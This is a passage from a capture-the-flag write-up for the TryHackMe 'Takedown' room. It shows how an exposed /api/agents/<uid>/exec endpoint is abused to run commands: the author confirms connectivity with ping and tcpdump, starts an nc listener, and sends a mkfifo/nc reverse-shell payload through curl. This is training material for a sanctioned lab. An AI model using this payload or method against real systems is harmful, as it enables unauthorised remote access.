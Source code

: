 **The `exec` usage is: `exec {command_here}`.**

**In `/api/agents/<uid>/exec` route, I can execute any command, with the POST json parameter `cmd`.**

Armed with above information, we can get a reverse shell via: **Execute arbitrary command via `/api/agents/<uid>/exec` route.**

# Initial Foothold

**First, we could confirm the target machine can reach to our attacker machine or not via `ping`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" -H "Content-Type: application/json" -X POST -d '{"cmd":"exec ping -c 4 10.8.27.249"}' http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf/exec
New commnad to execute: exec ping -c 4 10.8.27.249

┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
02:26:45.116192 IP takedown.thm.local > 10.8.27.249: ICMP echo request, id 1, seq 1, length 64
02:26:45.116441 IP 10.8.27.249 > takedown.thm.local: ICMP echo reply, id 1, seq 1, length 64
02:26:46.117671 IP takedown.thm.local > 10.8.27.249: ICMP echo request, id 1, seq 2, length 64
02:26:46.117775 IP 10.8.27.249 > takedown.thm.local: ICMP echo reply, id 1, seq 2, length 64
02:26:47.118540 IP takedown.thm.local > 10.8.27.249: ICMP echo request, id 1, seq 3, length 64
02:26:47.118556 IP 10.8.27.249 > takedown.thm.local: ICMP echo reply, id 1, seq 3, length 64
02:26:48.120482 IP takedown.thm.local > 10.8.27.249: ICMP echo request, id 1, seq 4, length 64
02:26:48.120525 IP 10.8.27.249 > takedown.thm.local: ICMP echo reply, id 1, seq 4, length 64
^C
8 packets captured
8 packets received by filter
0 packets dropped by kernel
```

We successfully received 4 ICMP ping!

**Next, setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# nc -lnvp 443 
listening on [any] 443 ...
```

**Finally, send the reverse shell payload: (Generated from [revshells.com](https://www.revshells.com/))**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" -H "Content-Type: application/json" -X POST -d '{"cmd":"exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.27.249 443 >/tmp/f"}' http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf/exec
New commnad to execute: exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.27.249 443 >/tmp/f
```

